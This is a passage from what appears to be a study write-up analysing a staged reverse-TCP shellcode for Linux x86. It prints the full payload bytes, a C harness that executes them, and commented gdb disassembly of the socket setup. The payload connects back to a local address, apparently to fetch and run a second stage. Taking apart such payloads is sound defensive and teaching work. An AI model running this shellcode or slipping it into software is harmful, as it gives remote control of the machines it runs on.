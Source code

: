 ```plaintext
"\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd"
"\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80"
"\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00"
"\x00\xcd\x80";
```
Then we insert it in this c code :
```c
#include<stdio.h>
#include<string.h>

unsigned char payload[] = \
"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89"
"\xe1\xcd\x80\x97\x5b\x68\x7f\x00\x00\x01\x68\x02\x00\x05\x39"
"\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0"
"\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05"
"\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9"
"\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd"
"\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80"
"\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00"
"\x00\xcd\x80";

int main()
{

	printf("Payload Length:  %d\n", strlen(payload));

	int (*ret)() = (int(*)())payload;

	ret();

}
```
We compile it and run it with gdb :
```plaintext
root@kali:~# gcc -fno-stack-protector -z execstack shellcode.c -o staged-reverse-tcp
root@kali:~# gdb ./staged-reverse-tcp
```
Now my analysis of the first stage payload and the gdb commands I've used to see its assembly code :
```nasm
(gdb) set disassembly-flavor intel 
(gdb) break *&payload
(gdb) run
(gdb) disas

   ; Init ESI like a loop counter to retry to connect if an error occurs
=> 0x00404040 <+0>:	push   0xa
   0x00404042 <+2>:	pop    esi		      ; set ESI to 10

   ; socketcall(SYS_SOCKET, *socketargs)
   ; socket(AF_INET, SOCK_STREAM, 0)
   ; return sockfd in EAX and store it in EDI
   0x00404043 <+3>:	xor    ebx,ebx
   0x00404045 <+5>:	mul    ebx		      ; set EAX,EBX,EDX to 0

   0x00404047 <+7>:	push   ebx		      ; push Null Pointer
   0x00404048 <+8>:	inc    ebx		      ; Set EBX to 1
						      ; used to push SOCK_STREAM value
						      ; and for SYS_SOCKET socketcall type
   0x00404049 <+9>:	push   ebx                    ; SOCK_STREAM
   0x0040404a <+10>:	push   0x2 		      ; AF_INET
   0x0040404c <+12>:	mov    al,0x66	              ; set eax to socketcall value
   0x0040404e <+14>:	mov    ecx,esp		      ; Point ECX to socket() arguments
   0x00404050 <+16>:	int    0x80
```